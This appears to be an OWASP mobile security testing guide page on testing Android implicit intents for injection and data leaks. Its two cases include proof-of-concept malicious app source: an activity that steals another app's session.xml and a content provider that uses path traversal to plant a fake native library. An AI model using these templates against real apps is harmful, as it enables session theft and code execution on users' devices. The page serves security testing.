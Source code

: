 ```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: Testing Implicit Intents
masvs_v1_levels:
- L1
- L2
profiles: [L1, L2]
---
```


## Overview

When testing for [implicit intents](../../../Document/0x05h-Testing-Platform-Interaction.md#implicit-intents) you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.

## Static Analysis

Inspect the Android Manifest and look for any `<intent>` signatures defined inside [<queries> blocks](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following `Intent` doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action `android.intent.action.GET_CONTENT` to ask the user for input data and then the app starts the intent by `startActivityForResult` and specifying an image chooser.

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

The app uses `startActivityForResult` instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/<appname>' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents").

### Case 1: Arbitrary File Read

In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname>` due to the improper validation of the return value of the intent.

The `performAction` method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling `getExternalCacheDir` or `getExternalFilesDir` an attacker can read this file after setting the permission `android.permission.READ_EXTERNAL_STORAGE`.

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

If the user selects the malicious app to handle the intent, the attacker can now steal the `session.xml` file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: Arbitrary Code Execution

An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") that contains `public Cursor query(...)` to set an arbitrary file (in this case _lib.so_), and if the victim loads this file from the content provider by executing `copy` the attacker's `ParcelFileDescriptor openFile(...)` method will be executed and return a malicious _fakelib.so_.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## Dynamic Analysis

A convenient way to dynamically test for implicit intents, especially to identify potentially leaked sensitive data, is to use Frida or frida-trace and hook the `startActivityForResult` and `onActivityResult` methods and inspect the provided intents and the data they contain.

